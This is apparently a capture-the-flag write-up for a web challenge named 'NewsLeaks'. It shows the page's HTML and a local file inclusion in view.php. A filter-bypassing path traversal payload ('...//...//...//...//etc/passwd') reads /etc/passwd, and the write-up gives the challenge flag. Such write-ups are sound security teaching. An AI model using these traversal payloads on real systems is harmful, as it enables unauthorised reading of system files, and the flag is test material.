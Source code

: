 # NewsLeaks
## Description
> Keep scrolling, but something feels... off. Can you figure it out?
>
> https://newsleaks.h7tex.com/


![image](https://github.com/user-attachments/assets/4bffe0bb-dcbf-4a29-9107-6d3698ee181b)

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Newspaper Viewer</title>
    <link rel="stylesheet" href="css/style.css">
</head>
<body>
    <div class="container">
        <h1>Online Newspaper Viewer</h1>
        <iframe id="newspaperFrame" src="view.php?file=newspaper1.html"></iframe>
        <br>
        <button onclick="prevNewspaper()">Previous</button>
        <button onclick="nextNewspaper()">Next</button>
    </div>

    <script>
        let currentFile = 1;
        const maxFiles = 3;

        function nextNewspaper() {
            if (currentFile < maxFiles) {
                currentFile++;
            } else {
                currentFile = 1; // Loop back to the first newspaper
            }
            document.getElementById('newspaperFrame').src = `view.php?file=newspaper${currentFile}.html`;
        }

        function prevNewspaper() {
            if (currentFile > 1) {
                currentFile--;
            } else {
                currentFile = maxFiles; // Loop back to the last newspaper
            }
            document.getElementById('newspaperFrame').src = `view.php?file=newspaper${currentFile}.html`;
        }
    </script>
</body>
</html>
```


![image](https://github.com/user-attachments/assets/08e01cc1-5437-4988-9e68-fae958a5efb0)
```
https://newsleaks.h7tex.com/view.php?file=.../etc/passwd
news/..etc/passwd not found
```

https://newsleaks.h7tex.com/view.php?file=...//...//...//...//etc/passwd
![image](https://github.com/user-attachments/assets/51b92f98-7771-4c5c-9015-28a171b2ef84)

## Flag
```
H7CTF{54n1t1z3_L0c4l_F1l3_1nclusi0n}
```
